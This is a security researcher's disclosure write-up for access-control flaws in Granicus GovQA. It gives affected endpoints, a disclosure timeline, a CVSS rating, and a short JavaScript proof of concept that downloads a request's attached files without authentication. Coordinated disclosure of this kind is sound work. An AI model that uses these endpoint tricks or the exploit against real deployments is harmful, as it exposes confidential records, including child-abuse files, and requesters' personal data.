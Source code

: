 # Granicus GovQA

## Description

Insufficient permission check vulnerabilities in Granicus's GovQA allowed unauthorized access to view, edit, and change ownership of open records requests[^1], including restricted-access confidential records. By changing ownership of a request, an attacker could effectively deny a legitimate user's access to that request. The vulnerabilities affected various deployments, including numerous Departments of Children and Family Services or their equivalents, which handle highly sensitive records of domestic violence and sexual abuse allegations against children.

## Details

The vulnerabilities allowed attackers to perform several unauthorized actions, as detailed below.

- To view request details, an attacker could access `RequestOpen.aspx?rid=<requestId>` or `RequestOpenCI.aspx?rid=<requestId>`, allowing them to view the name and other private information about the requester, as well as full details of the request.
- To edit request details, an attacker could access `RequestOpenCI.aspx?rid=<requestId>` to modify any field originally set by the requester.
- To change ownership of requests, an attacker could access `RequestOpenCI.aspx?rid=<requestId>` to manipulate the email field to assign ownership to their own account, another user's account, or to an email address not associated with an existing user.
- To download files attached to a request, which include those uploaded by the requester and the responding organization, an attacker could send a `POST` request to `RequestEdit.aspx/DownloadAll` with the data `{ itemId: <requestId> }`. This action would return a URL similar to `/temp/<requestId>.zip`, which could then be used to download the files. A proof of concept exploit is included below.

The sequential numbering of Request IDs makes it trivial for attackers to discover other requests, posing future risk to the system.

In a clear effort to protect its brand value, Granicus has deemed this issue low severity[^2], showcasing an egregious disregard for industry-standards, such as the Common Vulnerability Scoring System (CVSS).

CVSS 9.8 (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)

## Timeline

- 2024-01-06 - Vulnerabilities discovered in GovQA.
- 2024-01-08 - Granicus notified that vulnerabilities exist in GovQA.
- 2024-02-27 - Vulnerability details reported to Granicus.
- 2024-03-04 - Granicus confirms receipt of report.
- 2024-03-04 - Vulnerabilities confirmed fixed.

## Proof of Concept

```JavaScript
/*
 * Download all files for the request currently being viewed.
 * No authentication is required.
 */
DownloadFiles((new URL(window.location)).searchParams.get('rid'));

async function DownloadFiles(itemId) {
  const result = await fetch("RequestEdit.aspx/DownloadAll", {
    method: "POST",
    body: JSON.stringify({
      itemId: itemId
    }),
    headers: {"Content-Type": "application/json; charset=utf-8"}
  })
  if (result.status !== 200) {
      console.log(`Unable to download archive for ${itemId}.`);
      return;
  }
  const json = await result.json();
  console.log(`Attempting to download ${json.d}`);
  window.location=`.${json.d}`;
}
```

## Acknowledgements

- [Jaku](https://twitter.com/Jaku), founder of [Crowd Control](https://crowdcontrol.live/), who frequently offers his cybersecurity wisdom and experience.
- [Johnny Xmas](https://linktr.ee/johnnyxmas), [Burbsec](https://burbsec.com/) President, who has long provided guidance and acted as the voice of reason.
- [David DiMolfetta](https://www.nextgov.com/voices/david-dimolfetta/25968/) from [Nextgov/FCW](https://www.nextgov.com/), who immediately understood the severity of these vulnerabilities, took them to his editors, and worked tirelessly on his article[^3].
- [Zack Whittaker](https://techcrunch.com/author/zack-whittaker/) from [TechCrunch](https://techcrunch.com), who graciously allows me to rant about cybersecurity.
- [Brendon Keefe](https://www.atlantanewsfirst.com/authors/brendan.keefe/) from [Atlanta News First](https://www.atlantanewsfirst.com/), who retroactively permitted me to use his open records request for testing.
- The [CISA CVD Team](https://www.cisa.gov/coordinated-vulnerability-disclosure-process) assisted with the coordination of these vulnerabilities.

## Contact

[Jason Parker](https://linktr.ee/northantara)

- Email: [north@ꩰ.com](mailto:north@ꩰ.com)
- Press: [press@jeltz.org](mailto:press@jeltz.org)
- Mastodon: [@north@ꩰ.com](https://ꩰ.com/@north)

## Support

- If you enjoy my work, consider becoming a sponsor on [Patreon](https://patreon.com/northantara) or [GitHub](https://github.com/sponsors/qwell/), and/or consider donating to the [Electronic Frontier Foundation](https://eff.org/donate) or [St. Jude](https://www.stjude.org/donate). Many hours of labor are put into researching and disclosing vulnerabilities.
- I am also available for both contractual and full-time employment opportunities.

## Other Disclosures

- [govtech.cc](https://govtech.cc/)

[^1]: _The term "open" in "open records requests" can be misleading, as not all "open" requests are intended for public access. Many state and local governments have exceptions regarding the types of information that can be requested and the individuals permitted to access it. For instance, individuals directly affected by a record may have a legal right to request access regardless of public release exemptions. However, accessing such requests may pose security risks, as sensitive information could be downloaded by attackers. Furthermore, different states have varying requirements for requesting access, with some jurisdictions requiring proof of identity or residency. For example, Tennessee mandates requestors to upload a copy of their State ID to prove residency, potentially exposing personal information to unauthorized access._

<!-- -->

[^2]: _If Granicus considers the leakage of explicit records describing the sexual abuse of children to be of low severity, I shudder to think what they might consider to be of medium or high severity._

<!-- -->

[^3]: _[Flaws in public records management tool could let hackers nab sensitive data linked to requests](https://www.nextgov.com/cybersecurity/2024/03/flaws-public-records-management-tool-could-let-hackers-nab-sensitive-data-linked-requests/394755/)_
